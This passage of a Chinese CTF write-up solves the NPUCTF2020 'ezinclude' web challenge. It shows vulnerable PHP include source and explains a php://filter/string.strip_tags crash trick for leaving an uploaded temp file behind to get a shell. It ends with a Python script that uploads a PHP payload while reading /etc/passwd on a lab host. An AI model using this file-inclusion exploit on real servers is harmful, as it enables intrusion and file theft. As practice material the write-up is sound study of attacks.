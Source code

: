 得到flag



### [NPUCTF2020]ezinclude(include特殊用法)



用cookie中的hash登陆后发现`/flflflflag.php`

![image-20220912132546291](D:\Typora\note\CTF\web\challenge.assets\image-20220912132546291.png)

给出了这个，那就读一下`flflflflag.php`的源码

```php
<html>
<head>
<script language="javascript" type="text/javascript">
           window.location.href="404.html";
</script>
<title>this_is_not_fl4g_and_å.ºé¢.äºº_wants_girlfriend</title>
</head>
<>
<body>
<?php
$file=$_GET['file'];
if(preg_match('/data|input|zip/is',$file)){
	die('nonono');
}
@include($file);
echo 'include($_GET["file"])';
?>
</body>
</html>
```

题目也不能出网，日志包含也没有回显
但是什么文件都可以读，盲猜flag在**phpinfo**里面

没什么思路，看看WP

> 使用php://filter/string.strip_tags导致php崩溃清空堆栈重启，如果在同时上传了一个文件，那么这个tmp file就会一直留在tmp目录，再进行文件名爆破就可以getshell

参考博客: https://www.cnblogs.com/tr1ple/p/11301743.html

意思很明显了，然后本题还给出了个**dir.php**帮助你看上传文件的文件名

脚本

```php
import requests
from io import BytesIO
 
url = "http://f68355cd-450c-487d-a8aa-dbd422297cc4.node4.buuoj.cn:81/flflflflag.php?file=php://filter/string.strip_tags/resource=/etc/passwd"
 
phpfile = "<?php phpinfo(); ?>"
filedata = {
    "file":phpfile
}
 
bak = requests.post(url=url, files=filedata)
print(bak.text)
```
